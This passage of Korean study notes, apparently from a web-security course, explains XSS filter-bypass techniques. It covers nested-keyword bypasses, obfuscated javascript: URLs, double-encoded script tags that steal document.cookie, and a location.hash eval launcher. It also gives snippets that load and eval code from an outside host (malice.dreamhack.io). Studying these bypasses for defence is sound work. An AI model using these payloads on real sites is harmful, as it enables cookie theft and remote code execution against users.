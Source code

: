     replaceIterate('<ifronerrorame srcdoc="&lt;sonerrorcript&gt;parent.alescronerroriptrt(1)&lt;/scrionerrorpt&gt;" />')
    --> <iframe srcdoc="&lt;script&gt;parent.alert(1)&lt;/script&gt;" />
    ```

  ##### 4. 활성 하이퍼 링크

  ​	-> HTML 요소 속성에서 엔티티를 사용할 수 있다는 점을 이용

  ​	=> JavaScript에서는 `URL` 객체를 통해 URL을 직접 정규화할 수 있으며, `protocol`, `hostname` 등 URL의 각종 정보를 추출

  ​	ex) 

  ```js
  function normalizeURL(url) {        
      return new URL(url, document.baseURI);
  }
  normalizeURL('\4\4jAvaScRIpT:alert(1)')
  -->"javascript:alert"
  
  normalizeURL('\4\4jAvaScRIpT:alert(1)').protocol
  --> "javascript:"
  normalizeURL('\4\4jAvaScRIpT:alert(1)').pathname
  --> "alert(1)"
  ```

  ##### 5. 디코딩 전 필터링

  ​	->웹 방화벽 등의 필터링 기능에 의존하거나, 데이터를 개별 요소를 추출하기 전에 전체 데이터(JSON, Form data 등)에 필터를 가하는 경우

  ex)

  ```html
  POST /search?query=%253Cscript%253Ealert(document.cookie)%253C/script%253E HTTP/1.1
  ...
  -----
  HTTP/1.1 200 OK
  <h1>Search results for: <script>alert(document.cookie)</script></h1>
  ```

  ##### 6. 길이 제한

  ->다른 경로로 실행할 추가적인 코드(payload)를 URL fragment 등으로 삽입 후 삽입 지점에는 본 코드를 실행하는 짧은 코드(launcher) 사용

  ​	1. location.hash 를 이용한 공격 방식

```html
https://example.com/?q=<img onerror="eval(location.hash.slice(1))">#alert(document.cookie); 
```

​			2. 외부 자원을 이용한 공격 방식

```html
import("http://malice.dreamhack.io");
var e = document.createElement('script')
e.src='http://malice.dreamhack.io';
document.appendChild(e);
fetch('http://malice.dreamhack.io').then(x=>eval(x.text()))
```
